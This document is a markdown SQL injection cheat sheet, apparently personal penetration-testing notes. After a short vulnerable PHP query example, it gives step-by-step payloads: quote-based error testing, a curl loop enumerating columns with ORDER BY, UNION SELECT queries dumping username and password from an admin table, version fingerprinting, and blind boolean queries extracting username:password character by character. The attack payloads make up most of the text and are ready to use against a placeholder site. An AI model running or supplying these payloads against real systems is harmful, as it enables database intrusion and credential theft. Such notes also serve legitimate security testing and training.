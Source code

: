 # SQL Injection
Test these areas:
- url paramaters
- form fields

## Basic Example
The following URL serves a page based on the ID number passed to it in the URL.

`https://website.com/pages?id=3`

For an SQL injection to work, this URL needs to be mishandled on the backend. Similar to this:

```
<?php
$id = $_GET['id'];
$query = "SELECT title, content FROM Pages WHERE id == $id;"
```

## Basic Test
The easiest way to test for an SQL injection vulnerability is to throw a `'` into the string. If the application is vulnerable you will see an error similar to:

```
You have an error in your SQL syntax; check the manual that corresponds t oyour MySQL server version for the right.."
```


## Enumerate the columns in the database
Once you determine an application is vulnerable, you can Use the `ORDER BY` statement to enumerate the columns in a table. 

```
x=1
limit=10
while [ $x -le $limit ]
do
    curl https://website.com/pages?id=3 order by $x/*
done
```

At a certain point you will see an error similar to: 

`(Unkown column '5' in 'order clause')` which will indicate that you have hit the maximum of 4 columns. 

## Test the UNION function
Make sure to test both methods of commenting if one does not work.

`https://website.com/pages?id=3 union all select 1,2,3,4/*`

`https://website.com/pages?id=3 union all select 1,2,3,4--`

## Get SQL Version Number
This will help us determine if we can exploit this version of SQL

`https://website.com/pages?id=3 union all select 1,2,@@version,4/*`


## Enumerate Tables & Columns (version < 5.0)
Pass column names into the query string to attempt to find usernames and passwords.

```
https://website.com/pages?id=3 union all select 1,2,username,4 from admin/*
https://website.com/pages?id=3 union all select 1,2,password,4 from admin/*
```

## Blind Testing
If the page does not throw an error our tests are considered successful.

`https://website.com/pages?id=3 and 1=1`

`https://website.com/pages?id=3 and 1=2`

### Get Version
Change the version number (5) as needed 

`https://website.com/pages?id=3 and substring(@@version,1,1)=5`

### Subselect Testing
If the page does not throw an error, the statement will work.

`https://website.com/pages?id=3 and (select 1)=1`

To access the user

`https://website.com/pages?id=3 and (select 1 from mysql.user limit 0,1)=1`


### Checking table names
`https://website.com/pages?id=3 and (select 1 from users limit 0,1)=1`


### Checking column names
`https://website.com/pages?id=3 and (select substring(concat(1,password),1,1) from users limit 0,1)=1`

### Exploiting the vulnerability
This query will retrieve a single string (username:password) from the database, take the first character and convert it to it's ascii code. You will want to increase the index of the character in order to enumerate the entire username and password.

`https://website.com/pages?id=3 and ascii(substring((select concat(username,0x3a,password) from users limit 0,1),1,1)) > 80`

`ascii()` - return the ascii character code

`substring(username:password, 1,1)` - return the first character in the user:pass string

`concat(username, 0x3a, password)` - concat username:password

`> 80` - Execute Select query if the ascii character code > 80
